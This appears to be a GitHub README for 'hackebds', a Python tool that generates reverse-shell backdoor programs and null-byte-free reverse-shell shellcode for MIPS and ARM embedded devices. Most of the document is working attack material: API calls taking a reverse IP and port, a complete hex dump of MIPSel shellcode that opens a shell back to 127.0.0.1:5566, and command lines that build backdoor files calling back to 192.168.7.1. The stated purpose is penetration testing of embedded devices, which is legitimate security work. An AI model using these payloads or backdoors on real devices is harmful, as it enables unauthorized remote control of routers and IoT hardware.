



# introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time
**pip install hackebds**
```
pip install hackebds
....
#### Instructions for use
  
  When importing this module will import the pwn module

1. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell
#### 

```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
```
expample:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures
#### 
```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
```
example:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
#### 

## install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

## Instructions for use for "install (2)"

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```


**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```



**You can view tool information with -h**



## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## One-click build environment

To be added
